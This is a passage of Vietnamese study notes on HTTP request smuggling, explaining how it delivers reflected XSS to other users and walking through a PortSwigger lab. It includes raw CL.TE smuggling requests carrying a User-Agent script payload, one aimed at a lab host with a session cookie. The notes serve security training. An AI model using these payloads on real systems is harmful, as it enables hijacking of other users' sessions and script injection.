độ dài dài hơn body nên nó sẽ đợi request tiếp theo, từ đó ta sẽ chỉnh độ dài sao cho bắt được header `cookie` và lấy được value cookie của victim

---

## Using HTTP request smuggling to exploit reflected XSS
Nếu một ứng dụng có lỗ hổng HTTP request smuggling và cũng có lỗ hổng XSS phản chiếu, bạn có thể sử dụng request smuggling để tấn công người dùng khác của ứng dụng. Phương pháp này có hai lợi thế so với việc khai thác XSS phản chiếu thông thường:

Không yêu cầu tương tác với người dùng nạn nhân: Bạn không cần cung cấp cho họ một URL và chờ họ truy cập. Bạn chỉ cần smuggle một yêu cầu chứa payload XSS và yêu cầu tiếp theo của người dùng được xử lý bởi máy chủ phía sau sẽ bị ảnh hưởng.

Có thể khai thác hành vi XSS ở những phần của yêu cầu mà bình thường khó kiểm soát: Ví dụ như các header của HTTP request, là phần không dễ điều chỉnh trong một cuộc tấn công XSS phản chiếu thông thường.

Ví dụ, giả sử một ứng dụng có lỗ hổng XSS phản chiếu trong header `User-Agent`. Bạn có thể khai thác lỗ hổng này trong một cuộc tấn công request smuggling như sau:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```
Yêu cầu của người dùng tiếp theo sẽ được nối vào yêu cầu bị smuggle, và họ sẽ nhận được payload XSS phản chiếu trong phản hồi.

---

## 5. Exploiting HTTP request smuggling to deliver reflected XSS
https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss

Đầu tiên ta tìm lỗ hổng XSS:\


Tạo 1 request mà nó sẽ đợi cho người dùng tiếp theo truy cập sẽ bị đưa đến post và dính XSS:\


Payload:
```http
POST / HTTP/1.1
Host: 0a42000c040d9f0485cb9b7100660068.web-security-academy.net
Content-Length: 265
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
Host: 0a42000c040d9f0485cb9b7100660068.web-security-academy.net
Cookie: session=Un5LmGcPja7oTMQ1oCjPlTygGM8wNmSF
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
Gửi vài lần cho đến khi có user request sẽ được tính solved

---

Còn lab expert


